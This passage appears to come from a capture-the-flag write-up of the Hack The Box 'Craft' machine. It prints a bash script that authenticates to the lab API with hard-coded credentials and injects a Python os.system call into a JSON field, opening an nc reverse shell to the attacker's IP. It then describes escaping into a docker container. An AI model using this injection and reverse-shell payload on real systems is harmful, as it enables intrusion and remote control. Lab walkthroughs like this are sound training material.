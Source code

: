 Here is the bash script I wrote (I'm sure the token extraction part can be improved):

```sh
#!/bin/bash

untrimmed=$(curl -k -s -u dinesh:4aUh0A8PbVJxgd -X GET "https://api.craft.htb/api/auth/login" -H  "accept: application/json" | cut -d':' -f2)
token=${untrimmed:1:-2}

curl -k -H "X-Craft-API-Token:$token" -X POST "https://api.craft.htb/api/brew/" --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv":"__import__(\"os\").system(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.13.39 8080 >/tmp/f\")"}' -H "Content-Type:application/json"
```

#### Getting out of docker

I thought I was inside the system but there was something weird going on: there was no user under `/home`, I was root and there was a `.dockerenv` file on `/`. I was inside a docker container!

First things first, I remembered that the API had that `settings.py` file which wasn't on the gogs repo but should be on the container. So I navigated to `/opt/app/craft_api/` and was able to read it:

*Contents of `settings.py`*

![Img](/assets/posts_details/Craft/images/settings.png)
